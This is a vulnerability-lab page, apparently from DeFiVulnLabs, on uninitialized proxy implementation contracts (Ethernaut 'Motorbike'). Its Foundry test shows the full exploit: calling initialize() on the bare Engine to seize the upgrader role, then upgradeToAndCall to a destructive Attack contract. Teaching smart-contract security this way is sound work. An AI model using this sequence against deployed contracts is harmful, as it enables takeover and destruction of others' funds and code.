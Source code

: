 # Uninitialized state variables  
[Uninitialized_variables.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Uninitialized_variables.sol)  
**Name:** Uninitialized variable Vulnerability

**Description:**  
Uninitialized local storage variables may contain the value of other storage variables in the contract;
this fact can cause unintentional vulnerabilities, or be exploited deliberately.

**REF:**

https://blog.dixitaditya.com/ethernaut-level-25-motorbike

**Contract:**  
```
contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```
**How to Test:**

forge test --contracts src/test/**Uninitialized_variables.sol** -vvvv
```
// A function to test exploiting an uninitialized contract.
function testUninitialized() public {
    // A new instance of Engine and Motorbike contracts are created. 
    // The address of the EngineContract is passed to the MotorbikeContract's constructor.
    EngineContract = new Engine();
    MotorbikeContract = new Motorbike(address(EngineContract));

    // A new instance of AttackContract is created.
    AttackContract = new Attack();

    // Prints the upgrader of the EngineContract. Since EngineContract is not yet initialized, upgrader is likely a zero address.
    console.log("Uninitialized Upgrader:", EngineContract.upgrader());

    // Calls the `initialize()` function of the EngineContract. 
    // Since EngineContract was not initialized, whoever calls this function becomes the "upgrader".
    address(EngineContract).call(abi.encodeWithSignature("initialize()"));

    // Prints the upgrader of the EngineContract. Now, it will be the address that called `initialize()`.
    console.log("Initialized Upgrader:", EngineContract.upgrader());

    // Upgrades the implementation of the proxy (EngineContract) to a malicious contract (AttackContract) and call `attack()`.
    bytes memory initEncoded = abi.encodeWithSignature("attack()");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );

    // Prints "Exploit completed"
    console.log("Exploit completed");

    // Since the EngineContract was destroyed by the `attack()`, the next call will fail.
    console.log("Since EngineContract destroyed, next call will fail.");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );
}
```
Red box: change the logic contract by initialize.
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F75026e7d-93b6-4bd0-a860-aa12ac7f73ba%2FUntitled.png?table=block&id=111b15dd-4e6d-4a9d-85fc-b4a6a1397d0b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
